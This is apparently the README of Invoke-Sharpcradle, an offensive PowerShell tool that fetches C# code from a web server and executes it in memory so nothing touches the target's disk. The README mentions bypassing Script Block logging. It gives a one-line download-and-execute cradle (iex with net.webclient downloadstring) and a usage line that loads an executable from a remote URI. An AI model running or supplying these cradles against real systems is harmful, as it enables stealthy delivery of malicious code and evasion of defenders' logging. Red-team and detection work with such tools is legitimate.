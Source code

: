 # Invoke-Sharpcradle
Load C# Code from a Webserver straight to memory and execute it there.

All I did here was to take the C# code from https://github.com/anthemtotheego/SharpCradle and convert it into a Powershell script using Add-Type. 

Why? No executable on the target system hard disk. Powershell in memory, C# code in memory. To bypass Script Block logging further precautions have to be taken.

`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/Invoke-Sharpcradle/master/Invoke-Sharpcradle.ps1')`

`Invoke-Sharpcradle -Uri WebserverURI -Arguments ExecutableArguments`

![alt text](https://raw.githubusercontent.com/SecureThisShit/Invoke-Sharpcradle/master/Invoke-Sharpcradle.png)
